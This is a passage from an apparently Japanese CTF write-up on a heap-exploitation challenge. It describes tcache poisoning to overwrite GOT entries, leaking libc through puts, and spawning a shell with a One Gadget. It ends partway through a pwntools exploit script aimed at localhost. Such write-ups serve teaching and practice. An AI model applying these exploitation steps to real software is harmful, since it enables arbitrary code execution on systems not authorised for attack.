 5. `write(size1, data)`
```
global = a, *a = data
~~ tcache (size: size1) ~~
p -> ???
```

ここで次の`write`を行ってしまうと実際に値が書き換わってしまうのでここで止めておく。そして別のサイズのtcacheでも同じ手順を取ればめでたく各サイズのtcacheの先頭に目当てのポインタが来ることになる。

このようなtcacheを構成してから`write(0x20, puts@plt)` -> `write(0x30, func@got)`とすると、以後`free`を呼ぶと`puts`になるため`throw`時に`puts(func@got)`が呼ばれてlibcの配置場所がわかる(ここでは適当に`setvbuf`を利用した)。

### One Gadget

libcがわかったので後は`system("/bin/sh")`かOne Gadgetを呼ぶだけである。今回はOne Gadgetを利用した。
先程のtcache構成の際に残しておいたサイズ0x40のtcacheを利用して`write(0x40, one_gadget)`とし、`exit@got`の中身をOne Gadgetに書き換える。そして後は適当に`exit`に辿り着くような入力をすれば良い、具体的には選択肢の入力で数字以外を入力した。
`system("/bin/sh")`を利用する場合は`get_int`内で入力を`atoi`に渡しているので`atoi@got`を`system`に書き換えてしまうのが良いと思われる(試してないです)(※追記: 直前の`read`が4バイトしか読まないので無理でした -> shだけでできた)

## Code

```python
from pwn import process, remote, p64, u64, ELF


def pad_u64(b):
    while len(b) < 8:
        b += b"\x00"

    return u64(b)

def _select(s, sel, c=b"> "):
    s.recvuntil(c)
    s.sendline(sel)


# malloc & write
def mwrite(s, size, data=b"junk"):
    print("[+] mwrite")
    _select(s, b"1")
    s.recvuntil(b"> ")
    s.sendline(str(size).encode())
    s.recvuntil(b"> ")
    s.sendline(data)


def free(s):
    print("[+] free")
    _select(s, b"2")


# printf(show)
def show(s):
    print("[+] show")
    _select(s, b"3")
    s.recvuntil(b"secret name o: :")
    r = s.recvline().rstrip()
    return r


if __name__ == '__main__':
    target = "localhost"
    port = 2222
```